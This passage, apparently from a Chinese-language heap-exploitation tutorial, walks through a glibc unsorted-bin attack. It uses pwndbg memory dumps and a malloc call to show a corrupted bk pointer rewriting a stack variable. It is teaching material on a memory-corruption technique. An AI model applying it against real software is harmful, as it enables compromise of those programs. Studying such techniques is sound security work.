 这样的话把 p->bk 指向了 stack 上的 fake chunk - 2 的地址。

```
pwndbg> p p
$1 = (unsigned long *) 0x602010
pwndbg> x/20gx p-2
0x602000:	0x0000000000000000	0x00000000000001a1
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdc68
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000000
pwndbg> x/20gx p[1]
0x7fffffffdc68:	0x000000000040081e	0x0000000000400890
0x7fffffffdc78:	0x0000000000000000	0x0000000000602010
0x7fffffffdc88:	0x6ed73e366a987500	0x0000000000400890
0x7fffffffdc98:	0x00007ffff7a2d830	0x0000000000000001
0x7fffffffdca8:	0x00007fffffffdd78	0x00000001f7ffcca0
0x7fffffffdcb8:	0x00000000004006a6	0x0000000000000000
0x7fffffffdcc8:	0x5fdbc05b7ab47468	0x00000000004005b0
0x7fffffffdcd8:	0x00007fffffffdd70	0x0000000000000000
0x7fffffffdce8:	0x0000000000000000	0xa0243f24d2d47468
0x7fffffffdcf8:	0xa0242f9ec4447468	0x0000000000000000
pwndbg> heap
0x602000 PREV_INUSE {
  prev_size = 0, 
  size = 417, 
  fd = 0x7ffff7dd1b78 <main_arena+88>, 
  bk = 0x7fffffffdc68, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

然后我们 malloc 一块新 chunk：

``` c++
	malloc(400);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
```

这个时候，malloc 循着 bk 去申请一块新 chunk：

```
pwndbg> x/20gx &stack_var - 2
0x7fffffffdc68:	0x0000000000400828	0x0000000000400890      <-- fake chunk
0x7fffffffdc78:	0x00007ffff7dd1b78	0x0000000000602010      <-- fd
0x7fffffffdc88:	0x6ed73e366a987500	0x0000000000400890
0x7fffffffdc98:	0x00007ffff7a2d830	0x0000000000000001
0x7fffffffdca8:	0x00007fffffffdd78	0x00000001f7ffcca0
0x7fffffffdcb8:	0x00000000004006a6	0x0000000000000000
0x7fffffffdcc8:	0x5fdbc05b7ab47468	0x00000000004005b0
0x7fffffffdcd8:	0x00007fffffffdd70	0x0000000000000000
0x7fffffffdce8:	0x0000000000000000	0xa0243f24d2d47468
0x7fffffffdcf8:	0xa0242f9ec4447468	0x0000000000000000
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0 
0x40: 0x0
```